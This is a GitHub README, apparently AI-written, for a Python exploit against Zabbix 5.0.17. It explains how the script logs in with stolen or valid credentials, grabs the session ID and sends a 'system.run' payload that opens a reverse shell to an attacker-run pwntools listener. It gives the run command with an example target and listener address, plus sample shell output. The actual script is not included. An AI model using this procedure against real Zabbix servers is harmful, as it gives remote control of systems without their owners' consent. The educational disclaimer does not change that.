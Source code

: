 markdown
# Zabbix 5.0.17 Remote Code Execution (RCE) Exploit

This repository contains a Python script (`exploit.py`) to exploit a Remote Code Execution (RCE) vulnerability in Zabbix 5.0.17. The script allows you to gain a reverse shell on the target system by exploiting a specific feature within the Zabbix web interface.

## Features
- Automates login to the Zabbix instance.
- Extracts session ID (SID) after successful login.
- Sends a malicious payload to execute a reverse shell on the target.
- Includes a built-in listener for the reverse shell using **pwntools**.

## Requirements
- Python 3.6 or higher.
- **pwntools** library installed. See the installation steps below.

## Installation
Before running the script, ensure you have **pwntools** installed. You can install it using pip:

```bash
pip install pwntools
```

## Usage
Run the script with the following syntax:

```bash
python3 exploit.py <url> <user> <password> <lhost> <lport>
```

### Parameters
- `<url>`: URL of the Zabbix instance (e.g., `http://zabbix.example.com`).
- `<user>`: Username of a valid Zabbix account (e.g., `Administrator`).
- `<password>`: Password for the account.
- `<lhost>`: Your local host IP to receive the reverse shell.
- `<lport>`: Your local port to receive the reverse shell.

### Example
```bash
python3 exploit.py http://zabbix.shibboleth.htb Administrator yourpassword 10.10.14.16 443
```

## How It Works
1. **Login**: The script logs into the Zabbix instance using the provided credentials.
2. **SID Extraction**: It extracts the session ID (SID) from the response after login.
3. **Payload Delivery**: Sends a `system.run` payload with a reverse shell command to the server.
4. **Reverse Shell**: The target system connects back to the attacker's listener.

## Listener
The script includes a reverse shell listener powered by **pwntools**. The listener waits for incoming connections on the specified `lhost` and `lport`.

## Output
- Upon successful exploitation, you will gain an interactive shell on the target system.
- Example output:
  ```
  Listener started on 10.10.14.16:443, waiting for a connection...
  Connection received!
  Shell> whoami
  zabbix
  ```

## Notes
- Ensure that the Zabbix instance is vulnerable before running this exploit.
- Use this script only for educational purposes and authorized penetration testing.

## Disclaimer
This tool is intended for educational and authorized penetration testing purposes only. The author does not take responsibility for any misuse of this script.
```

This `README.md` provides a comprehensive overview of the exploit and includes instructions for installation, usage, and operation. It emphasizes ethical use and provides enough detail for users to get started.